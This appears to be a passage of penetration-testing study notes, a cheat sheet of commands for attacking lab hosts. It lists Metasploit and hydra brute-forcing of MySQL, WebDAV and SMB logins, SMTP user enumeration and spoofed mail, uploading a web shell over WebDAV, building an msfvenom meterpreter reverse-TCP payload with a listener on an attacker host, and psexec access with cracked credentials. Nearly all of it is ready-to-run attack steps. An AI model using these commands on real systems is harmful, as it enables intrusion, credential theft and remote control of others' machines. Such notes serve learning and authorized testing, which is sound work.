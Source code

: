 				- - `nmap -sV -p3306 192.222.16.3`
				- `msfconsole`
				- `use auxiliary/scanner/mysql/mysql_login`
				- `set RHOSTS 192.222.16.3`
				- `set USERNAME root`
				- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
				- `set VERBOSE false`
				- `set STOP_ON_SUCCESS true`
				- `exploit`
	- SMTP
		- - `nmap -sV 192.63.243.3`
		- `nc 192.63.243.3 25` - banner grabbing
		- `telnet 192.63.243.3 25` - telnet
		- `smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t 192.63.243.3` - user enum
		- `use auxiliary/scanner/smtp/smtp_enum`
		- `sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.63.243.3 -u Fakemail -m "Hi root, a fake mail from admin" -o tls=no` - send fake mail
- System / host based attacks
	- windows 
		- webdav 
			- Cadaver
				- cadaver [http://10.3.26.115/webdav](http://10.3.26.115/webdav)
				- dav:/webdav/> put /usr/share/webshells/asp/webshell.asp - file upload using cadaver
				- Access the backdoor: [http://10.3.26.115/webdav/webshell.asp](http://10.3.26.115/webdav/webshell.asp)
				- enjoy free backdoor
			- brute force
				- `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.26.115 http-get /webdav/`
			- MSFConsole
				- - `nmap -p80 --script http-enum -sV 10.4.18.218`
				- `davtest -auth bob:password_123321 -url <http://10.4.18.218/webdav`>
				- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.4 LPORT=1234 -f asp > shell.asp`
				- `cadaver <http://10.4.18.218/webdav`>
				- `put /root/shell.asp`
				- `service postgresql start && msfconsole`
				- `use exploit/multi/handler`
				- `set payload windows/meterpreter/reverse_tcp`
				- `set LHOST 10.10.80.4`
				- `set LPORT 1234`
				- `run`
				- Browser [http://10.4.18.218/webdav/shell.asp](http://10.4.18.218/webdav/shell.asp)
				- Got meterpreter session > sysinfo,getuid
				- 
		- SMB
			- Bruteforce
				- `msfconsole`
				- `search smb_login`
				- `use auxiliary/scanner/smb/smb_login`
				- `set RHOSTS 10.4.16.36`
				- `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
				- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
				- `set VERBOSE false`
				- `exploit` credentials should be found
				- PSexec after credentials being found
					- `psexec.py Administrator@10.4.16.36 cmd.exe`
					- MSF
						- `msfconsole`
						- `search psexec`
						- `use exploit/windows/smb/psexec`
						- `set RHOSTS 10.4.16.36`
						- `set SMBUser Administrator`
						- `set SMBPass qwertyuiop`
						- `exploit`